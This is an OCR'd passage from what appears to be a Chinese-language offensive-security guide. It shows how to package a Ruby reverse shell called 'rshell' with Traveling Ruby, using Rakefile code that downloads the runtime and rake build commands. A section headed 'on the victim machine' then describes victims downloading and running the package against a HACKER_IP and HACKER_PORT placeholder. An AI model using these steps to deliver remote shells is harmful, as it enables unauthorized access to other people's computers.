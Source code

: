 ```
  if !ENV['DIR_ONLY']
    sh "tar -czf #{package_dir}.tar.gz #{package_dir}"
    sh "rm -rf #{package_dir}"
  end
end

def download_runtime(target)
  sh "cd packaging && curl -L -O --fail " +
    "http://d6r77u77i8pq3.cloudfront.net/releases/traveling-ruby-#{TRAVELING_RUBY_VERSION}-#{target}.tar.gz"
end 
```

您可以通过运行以下命令来创建所有 3 个软件包：

```
rake package 
```

您还可以通过运行以下命令之一为特定平台创建软件包：

```
rake package:linux:x86
rake package:linux:x86_64
rake package:osx 
```

您还可以通过传递 DIR_ONLY=1 来仅创建软件包目录，而不创建 .tar.gz 文件：

```
rake package DIR_ONLY=1
rake package:linux:x86 DIR_ONLY=1
rake package:linux:x86_64 DIR_ONLY=1
rake package:osx DIR_ONLY=1 
```

##### 在受害者机器上

现在您有三个文件，可以分发给最终用户。

```
rshell-1.0.0-linux-x86.tar.gz
rshell-1.0.0-linux-x86_64.tar.gz
rshell-1.0.0-osx.tar.gz 
```

假设最终用户使用的是 Linux x86_64。他/她通过下载 rshell-1.0.0-linux-x86_64.tar.gz，解压缩并运行它来使用您的应用程序：

```
wget rshell-1.0.0-linux-x86_64.tar.gz
...
tar xzf rshell-1.0.0-linux-x86_64.tar.gz
cd rshell-1.0.0-linux-x86_64
./rshell
# => ruby rshell.rb.rb [HACKER_IP  HACKER_PORT] 
```

#### mruby

